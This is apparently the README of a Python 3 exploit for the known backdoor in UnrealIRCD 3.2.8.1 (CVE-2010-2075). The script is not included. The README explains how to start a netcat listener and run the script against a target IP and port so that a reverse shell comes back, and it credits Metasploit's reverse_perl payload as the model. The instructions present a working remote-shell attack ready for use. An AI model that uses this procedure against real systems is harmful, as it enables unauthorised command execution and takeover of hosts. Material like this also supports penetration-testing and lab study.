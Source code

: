 # UnrealIRCD 3.2.8.1 Backdoor Command Execution
UnrealIRCD 3.2.8.1 backdoor command execution exploit in Python 3 (CVE-2010-2075).

# Description
[UnrealIRCD](https://www.unrealircd.org/) version 3.2.8.1 contains a trojan horse which allows remote attackers to execute arbitrary commands ([CVE-2010-2075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075)).

I referenced the Metasploit payload `payload/cmd/unix/reverse_perl` to make this script. 

# Usage
Start a Netcat listener on the listening host:
```
nc -lp 4444
```

Execute the script, providing the following positional arguments:
```
python3 script.py <target> <tport> <listener> <lport>
```
- `<target>` Target host IP address.
- `<tport>` Target host port number.
- `<listener>` Listening host IP address.
- `<lport>` Listening host port number.

# Example
Setup a Netcat listener on your local machine:
```
nc -lp 4444
```

Run the script against a target machine at `192.168.1.3` TCP port `6697`:
```
python3 script.py 192.168.1.3 6697 192.168.1.2 4444
```
Wait a minute and the Netcat listener should receive a reverse shell.
